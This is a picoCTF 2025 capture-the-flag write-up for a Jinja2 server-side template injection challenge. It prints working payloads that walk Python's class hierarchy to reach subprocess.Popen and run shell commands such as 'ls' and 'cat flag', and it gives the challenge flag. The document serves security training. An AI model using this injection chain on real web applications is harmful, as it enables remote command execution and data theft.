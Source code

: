 # :briefcase: SSTI1

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2025`
- **Tag**: `browser_webshell_solvable`
- **Author**: `Venax`
- **Date**: `18/05/2025

---

# :pencil: Description

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

---

# :hammer_and_wrench: Solution

1. Access the link

    ![image1](images/image1.png)

2. Try enter some announce `>` We have this

    ![image2](images/image2.png)

3. Back to previous page `>` We will try enter the following characters in turn `${{<%[%'"}}%` until we get an error `>` We have this after enter `${{`

    ![image3](images/image3.png)

4. Now we will continue entering `${{7\*7}}` and `${{7\*'7'}}` `>` We have this

    ![image4](images/image4.png)
    ![image5](images/image5.png)

    This proves that we can use Jinja2 to do it.

5. Enter the following segments one by one to find what we need.

    `{{''.__class__}}`

    ![image6](images/image6.png)

    `{{''.__class__.__mro__}}`

    ![image7](images/image7.png)

    `{{''.__class__.__mro__[1]}}`
    
    ![image8](images/image8.png)

    `{{''.__class__.__mro__[1].__subclasses__()}}`

    ![image9](images/image9.png)

    Now we need to find the location of the class `subprocess.Popen` `>` Save all classes into a file `>` Use the following commands.

   `tr \, \\n < classes.txt > classes2.txt`

    `awk '{print NR $s}' classes2.txt | grep 'subprocess.Popen'`
    
    ![image10](images/image10.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]}}`

    *Note: We input 356 because __subclasses__() returns an array, and the awk command counts from 1*

    ![image11](images/image11.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]("ls", shell=True, stdout=-1).communicate()}}`

    ![image12](images/image12.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]("cat flag", shell=True, stdout=-1).communicate()}}`

    ![image13](images/image13.png)

---

# :white_flag: Flag

> picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}

---

# :writing_hand: Notes

1. `__subclasses__()` is a built-in method of `object` that lists all its direct and indirect subclasses.
2. `__mro__` is a tuple that shows the method resolution order of a class.
3. `subprocess` in Python allows executing system commands.

---

# :books: Resources

1. [TryHackMe | SSTI](https://tryhackme.com/room/learnssti)
2. [subprocess — Subprocess management &#8212; Python 3.13.3 documentation](https://docs.python.org/3/library/subprocess.html)

